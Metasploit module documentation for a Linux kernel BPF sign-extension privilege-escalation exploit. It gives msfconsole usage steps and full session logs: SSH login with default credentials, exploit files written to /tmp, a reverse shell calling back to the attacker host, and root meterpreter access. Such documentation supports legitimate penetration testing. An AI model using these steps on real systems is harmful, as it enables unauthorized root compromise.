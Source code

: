 ## Vulnerable Application

This module exploits the Berkeley Packet Filter in the Linux kernel prior to 4.13.0,
which contains a vulnerability where it may improperly perform sign extentension.
This can be utilized to priv escalate.  However, this module's offsets and
other parameters have only been set and tested against the 4.4.0-116 kernel.

This module has been successfully tested on:

  * Ubuntu 16.04 with the 4.4.0-116 kernel
  * Linux Mint 18 with the 4.4.0-116-generic kernel

### Meterpreter Exception

Due to a bug, this exploit can only be run on a non-meterpreter shell.
When run on meterpreter, or a shell spawned by meterpreter, the error `error: Invalid argument`
is thrown by the executable.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
### Linux Mint 18

  ```
  msf5 exploit(multi/handler) > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > check
  
  [!] SESSION may not be compatible with this module.
  [+] Kernel confirmed vulnerable
  [*]  The target appears to be vulnerable.
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run
  
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing UVQYvBTJ to /tmp/UVQYvBTJ.c
  [*] Max line length is 65537
  [*] Writing 7773 bytes in 1 chunks of 26765 bytes (octal-encoded), using printf
  [*] Writing ljJApCaK to /tmp/ljJApCaK
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 845 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 172.16.191.207
  [*] task_struct = ffff88003ce84600
  [*] uidptr = ffff88003cc46f04
  [*] spawning root shell
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:48276) at 2018-03-24 22:46:58 -0400
  [+] Deleted /tmp/UVQYvBTJ.c
  [+] Deleted /tmp/UVQYvBTJ
  [+] Deleted /tmp/ljJApCaK
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ.c' on the target
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ' on the target
  [!] This exploit may require manual cleanup of '/tmp/ljJApCaK' on the target
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
